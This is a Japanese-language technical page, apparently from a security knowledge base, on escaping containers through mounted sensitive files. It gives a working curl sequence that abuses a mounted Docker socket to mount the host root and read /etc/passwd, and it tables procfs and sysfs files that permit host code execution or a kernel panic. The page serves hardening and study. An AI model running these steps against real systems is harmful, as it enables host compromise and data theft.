 # Sensitive File Mount

コンテナに特定のファイルをマウントした場合に、ホスト側にエスケープできるケースがあります。

## Docker Socket

Docker Daemon と通信を行うソケットをコンテナにマウントすると、コンテナから任意の HTTP リクエストを送信できるため、ホスト側にエスケープすることができます。

```sh
ubuntu@docker:~$ docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu:latest bash
# コンテナ一覧を取得できる
root@3ba2c2752b26:/# curl --unix-socket /var/run/docker.sock http:/v1.24/containers/json
[{"Id":"3ba2c2752b264486b24d5ae00c2a4b6d00b341fe8001f1e703ecadd4ee44655e","Names":["/eager_wozniak"],"Image":"ubuntu:latest","ImageID":"sha256:bb0eaf4eee00c28cb8ffd54e571dd225f1dd2ed8d8751b2835c31e84188bf2de","Command":"bash","Created":1605360446,"Ports":[],"Labels":{},"State":"running","Status":"Up About a minute","HostConfig":{"NetworkMode":"default"},"NetworkSettings":{"Networks":{"bridge":{"IPAMConfig":null,"Links":null,"Aliases":null,"NetworkID":"fdc64dc8a87c0c6a25e6186c5713f03c36a6be049d9a800d745a4d0c7e6c93de","EndpointID":"609757590f10f891224587c9f48abbf3f243705660c98cfb8489aa5cecf29f51","Gateway":"172.17.0.1","IPAddress":"172.17.0.2","IPPrefixLen":16,"IPv6Gateway":"","GlobalIPv6Address":"","GlobalIPv6PrefixLen":0,"MacAddress":"02:42:ac:11:00:02","DriverOpts":null}}},"Mounts":[{"Type":"bind","Source":"/var/run/docker.sock","Destination":"/var/run/docker.sock","Mode":"","RW":true,"Propagation":"rprivate"}]}]

# host の / をマウントしたコンテナを作成
root@3ba2c2752b26:/# curl -L --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' --data-binary '{"Hostname": "","Domainname": "","User": "","AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Tty": true,"OpenStdin": true,"StdinOnce": true,"Entrypoint": "/bin/bash","Image": "ubuntu","Volumes": {"/hostos/": {}},"HostConfig": {"Binds": ["/:/hostos"]}}' http://v1.24/containers/create
{"Id":"8e15f2d344fa7bf9588f82a097e7c506429b936e85bc2a60350a018a7277403f","Warnings":[]}
root@3ba2c2752b26:/# curl --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' http:/v1.24/containers/8e15f2d344fa7bf9588f82a097e7c506429b936e85bc2a60350a018a7277403f/start

# cat /hostos/etc/passwd を実行
root@3ba2c2752b26:/# curl --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/hostos/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' http:/v1.24/containers/8e15f2d344fa7bf9588f82a097e7c506429b936e85bc2a60350a018a7277403f/exec
{"Id":"0dd4ef3a6b6f63327ef950f9b90d6908006221160f8c2866ed4a8ca4d6e594fb"}
root@3ba2c2752b26:/# curl -L -i --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' --data-binary '{"Detach": false,"Tty": false}' http://v1.24/exec/0dd4ef3a6b6f63327ef950f9b90d6908006221160f8c2866ed4a8ca4d6e594fb/start --output /tmp/output
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1831    0  1801  100    30  19159    319 --:--:-- --:--:-- --:--:-- 19478

# 取得できていることが確認できる
root@3ba2c2752b26:/# cat /tmp/output
HTTP/1.1 200 OK
Content-Type: application/vnd.docker.raw-stream
Api-Version: 1.40
Docker-Experimental: false
Ostype: linux
Server: Docker/19.03.13 (linux)

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

## procfs

procfs にはホスト側へのエスケープにつながるファイルだけでなく、ホストの情報漏洩にもつながるファイルもあります。  

| ファイル | 概要 |
|:--------:|:----:|
| `/proc/sys/kernel/core_pattern` | core ファイルの名前を指定できる。パイプが利用できるため、ホスト側での任意コード実行に繋げることが可能。|
| `/proc/sys/fs/binfmt_misc` | 指定した拡張子やマジックナンバーを持つファイルを実行する際のインタプリタを指定できる。コンテナ内のファイルを指定することで、ホスト側で対応したファイル実行時にエスケープにつながる。|
| `/proc/sysrq-trigger` | Sysrq コマンドを扱うファイル。例えばコンテナから文字列 `c` をこのファイルに書き込むことでホストにカーネルパニックを起こせる。|
| `/proc/sched_debug` | プロセスのスケジュール管理情報を持っているファイル。全ての namespace のプロセス名が含まれるため、ホストのプロセスも確認できる。 |

上記以外にも `/proc/kcore` や `/proc/kallsyms` など、コンテナから閲覧されない方が良いファイルが多数あります。

## sysfs

sysfs も procfs 同様にホスト側へのエスケープ及び情報漏洩につながるファイルがあります。

| ファイル | 概要 |
|:--------:|:----:|
| `/sys/kernel/uevent_helper` | uevent が発生した際に実行するプログラムを指定できる。コンテナで uevent を発生させることで、ホスト側での任意コード実行に繋げることが可能。|
| `/sys/kernel/vmcoreinfo` | カーネルのアドレスリークにつながる |

